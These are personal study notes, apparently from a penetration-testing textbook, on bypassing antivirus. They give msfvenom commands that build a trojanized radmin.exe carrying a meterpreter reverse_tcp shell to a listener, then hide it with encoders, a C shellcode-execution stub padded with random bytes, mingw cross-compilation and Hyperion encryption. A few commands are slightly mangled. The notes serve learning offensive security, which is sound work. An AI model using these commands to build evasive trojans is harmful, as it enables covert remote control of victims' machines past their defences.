 Bypassing Antivirus Applications 257, 287

### pg 258, 288
Bypassing Antivirus (the fun stuff)
loading a program into memory and not touching disk  - reflective dll injection by Metasploit
Building a Trojan
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -f exe >radmin.exe
reverse_tcp payload
-x  - combine the trojan with the radmin.exe file
-k  - put the trojan in a separate thread
-f  - file is an exe
after that set up a listener with multi/handler

Check the md5sum and sha512sum for tampering/trojan injection
### pg 260, 290
Antivirus Flagging
static analysis - checking hashes and signatures against a database; dictionary checking
dynamic analyssis - flags sus stuff like botnet commands and unnecessary, repetitive stuff

Msfvenom Encoders - encodes the payloads so they don't get flagged
Polymorphic code is available but does not get past most antiviruses
msfvenom -l encoders  - shows all encoders

(null input for payload is redirected to stdin)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -e x86/shikata_ga_nai-i 10 -f exe > radminencoded.exe

Custom Cross Compiling
Format payload into c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9LPORT=2345 -f c -e x86/shikata_ga_nai -i 5
 
cat /dev/urandom  - for random bytes
cat /dev/urandom | tr -dc A-Z-a-z-0-9 | head -c512  - for 512 bytes of alphanumerics

load the shellcode as a string and execute it in c code as shown

int main(void)
{ 
	((void (*)())shellcode)();
}

now throw in some of the random bytes in there as strings
Compile with mingw32 compiler for windows, use gcc if payload is for linux
-586-min-gw32msvc-gcc -o custommeterpreter.exe custommeterpreter.c

### pg 269, 299
Hyperion - encrypts in AES, makes the key small to be bruteforced, then send it out
Wine - allows files made to run on windows run on linux
Hyperion was made to run on windows
cd /usr/share/veil-evasion/tools/hyperion  - file where hyperion is stored
wine hyperion old.exe encrypted.exe  - encrpyts the file
